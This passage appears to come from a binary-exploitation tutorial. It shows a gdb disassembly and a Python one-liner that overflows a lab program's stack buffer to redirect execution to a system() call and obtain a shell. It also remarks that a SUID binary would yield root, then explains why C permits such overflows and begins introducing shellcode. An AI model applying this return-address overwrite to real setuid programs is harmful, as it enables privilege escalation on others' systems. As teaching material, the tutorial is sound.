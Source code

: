 ```bash
   0x080491f6 <+32>:	add    esp,0x10
   0x080491f9 <+35>:	sub    esp,0xc
   0x080491fc <+38>:	lea    eax,[ebx-0x1ff8]
   0x08049202 <+44>:	push   eax
   0x08049203 <+45>:	call   0x8049090 <system@plt>
   0x08049208 <+50>:	add    esp,0x10
   0x0804920b <+53>:	nop
   0x0804920c <+54>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0804920f <+57>:	leave  
   0x08049210 <+58>:	ret    
End of assembler dump.
```

`0x080491d6` is that's what you need.

Then, try to replace last 4 bytes in payload on this address:
```bash
gef➤  r < <(python -c 'print "A"*250 + "B"*12 + "\xd6\x91\x04\x08"')
Starting program: /home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow < <(python -c 'print "A"*250 + "B"*12 + "\xd6\x91\x04\x08"')
[Detaching after vfork from child process 6753]

Program received signal SIGSEGV, Segmentation fault.
0xf7fa8000 in ?? () from /lib/i386-linux-gnu/libc.so.6
```
Segmentation fault is nothing because you can see that the gdb shows you detaching. It means that the shell is executed.

Again, you have a shell, or if this program would be with SUID bit set, you would get the root or another user who is owned this program.

### Why is this happening?

Programming languages such as C, in which the High-level language instructions map to typical machine language do not provide any mechanism to identify if the buffer (char array) declared on to the stack, can take the input more than was it was supposed to take. The reason for non-checking such sort of mechanism was to achieve the speed part of the machine language.

Stack overflow things:
1. C does not check buffer overflow.
2. Buffers are stored in a lower to a higher memory address.
3. Just after the buffer, after overflowing it to a certain amount can update saved variables, old EBP register value, and return address.
4. If the return address is changed we can change the control flow.

## Shellcode writing

Now, when you can jump to an arbitrary address, you might think that you can jump to your input data. Yes, you can. But what will yout input data look like? Your input data needs to be low-level compiled assembly code that is the same as a chain of opcodes. But also, let's understand what a shellcode and a payload are.

Shellcode is a small piece of payload in binary language that is used to inject to vulnerable binary files. Or the same as I said above about the input data.
